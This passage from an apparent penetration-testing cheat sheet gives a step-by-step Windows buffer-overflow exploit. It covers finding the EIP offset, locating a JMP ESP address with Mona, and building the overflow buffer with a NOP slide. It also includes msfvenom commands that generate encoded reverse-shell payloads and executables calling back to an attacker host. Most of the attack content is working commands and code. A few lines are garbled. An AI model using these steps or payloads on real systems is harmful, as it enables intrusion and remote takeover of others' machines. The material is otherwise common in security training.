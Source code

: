 -   MSFvenom  
    [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

-   Windows Buffer Overflows

    -   Controlling EIP

    -   locate pattern\_create

    -   pattern\_create.rb -l 2700

    -   locate pattern\_offset

    -   pattern\_offset.rb -q 39694438

    -   Verify exact location of EIP - \[\*\] Exact match at offset 2606

    -   buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    -   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    -   Use Mona to determine a module that is unprotected

    -   Bypass DEP if present by finding a Memory Location with Read and
        Execute access for JMP ESP

    -   Otherwise without DEP, we can stick our

    -   Use NASM to determine the HEX code for a JMP ESP instruction

        -   /usr/share/metasploit-framework/tools/exploit/nasm\_shell.rb

        -   JMP ESP  
            00000000 FFE4 jmp esp

    -   Run Mona in immunity log window to find (FFE4) XEF command

    -   !mona find -s "\\xff\\xe4" -m slmfc.dll  
        found at 0x5f4a358f - Flip around for little endian format

    -   buffer = "A" \* 2606 + "\\x8f\\x35\\x4a\\x5f" + "C" \* 390

    -   MSFVenom to create payload  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=443 -f c
        –e x86/shikata\_ga\_nai -b "\\x00\\x0a\\x0d"

    -   Final Payload with NOP slide  
        buffer="A"\*2606 + "\\x8f\\x35\\x4a\\x5f" + "\\x90" \* 8 +
        shellcode

    -   Create a PE Reverse Shell  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -o shell\_reverse.exe

    -   Create a PE Reverse Shell and Encode 9 times with
        Shikata\_ga\_nai  
        msfvenom -p windows/shell\_reverse\_tcp LHOST=$ip LPORT=4444
        -f  
        exe -e x86/shikata\_ga\_nai -i 9 -o
        shell\_reverse\_msf\_encoded.exe
